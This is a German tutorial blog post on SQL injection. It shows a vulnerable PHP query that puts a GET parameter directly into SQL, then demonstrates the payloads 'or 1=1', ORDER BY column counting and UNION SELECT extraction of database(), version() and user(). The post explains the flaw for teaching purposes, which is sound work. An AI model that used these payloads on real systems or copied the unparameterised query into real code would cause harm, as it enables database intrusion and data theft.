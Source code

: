```yaml
---
layout: post
title: SQL Injections und wie sie entstehen
author: Manuel Zarat
category: tutorials
tags: protokoll
permalink: /post/sqlinjections
---
```


<p>Ich habe ein Beispiel auf <a href="http://www.sqlfiddle.com/#!9/70f022" target="_blank" rel="noopener">SQL Fiddle</a> erstellt.</p>
<!--excerpt_separator-->
<pre>CREATE TABLE `user` (<br />  `id` INT NOT NULL AUTO_INCREMENT,<br />  `mail` VARCHAR(50) NULL,<br />  `pass` VARCHAR(50) NULL,<br />  PRIMARY KEY (`id`));<br />insert into user (mail,pass) values ( 'user1@zarat.ml', md5('user1') );<br />insert into user (mail,pass) values ( 'user2@zarat.ml', md5('user2') );<br />insert into user (mail,pass) values ( 'user3@zarat.ml', md5('user3') );</pre>
<p>Nehmen wir an, wir nutzen aus Unwissenheit folgenden SQL Query:</p>
<pre>$id = $_GET['id'];
mysql_Query("SELECT * FROM user WHERE id= $id"); //oder
mysql_Query("SELECT * FROM user WHERE id= '$id'");
</pre>
<p>Anhand des Ergebnisses dieser Abfrage entscheiden wir, ob der User eingelogt ist oder nicht. Ein Hacker würde versuchen, den Query zu verändern indem er die als GET Parameter übergebene id manipuliert.</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1; //oder
SELECT * FROM user WHERE id='1' or '1'='1';</pre>
<p>Es ist egal, welche id übergeben wird, der Query wird so abgeändert, das das nachfolgende or 1=1 alle vorangehenden Statements überschreibt. Wenn diese Abfrage an den SQL Interpreter weitergeleitet wird, bedeutet das, man kann sogut wie alles in den Query interpretieren. Ich möchte jetzt den Namen der Datenbank wissen. Dazu muss ich zuerst herausfinden, wieviele Spalten der Datensatz hat.</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1 order by 1; //oder
SELECT * FROM user WHERE id='1' or '1'='1' order by 1;</pre>
<p>Diese ORDER BY Klausel erhöhe ich dabei jedes mal um 1, bis ein Fehler kommt. Ich weiß jetzt die letzte Zahl ist die Anzahl an Spalten! Somit kann ich den Query abändern und mit einem UNION SELECT das Ergebnis "überschreiben".</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1 union select 1,2,3; //oder
SELECT * FROM user WHERE id='1' or '1'='1' union select 1,2,3;</pre>
<p>Dieser Query wäre zwar aufwendig und unnötig aber noch kein "Fehler" in dem Sinn. Statt die gefundenen Variablen anhand der Nummerierung ins Ergebnis zu schreiben nutze ich interne Funktionen um meine Informationen zui erhalten. Erstmal sind folgende Funktionen von Bedeutung</p>
<ul>
<li>database()</li>
<li>user()</li>
<li>version()</li>
</ul>
<pre>SELECT * FROM user WHERE id=1 or 1=1 union select database(),version(),user(); //oder
SELECT * FROM user WHERE id='1' or '1'='1' union select database(),version(),user();</pre>
<p>Damit haben wir vollen Zugriff auf die Datenbank.</p>
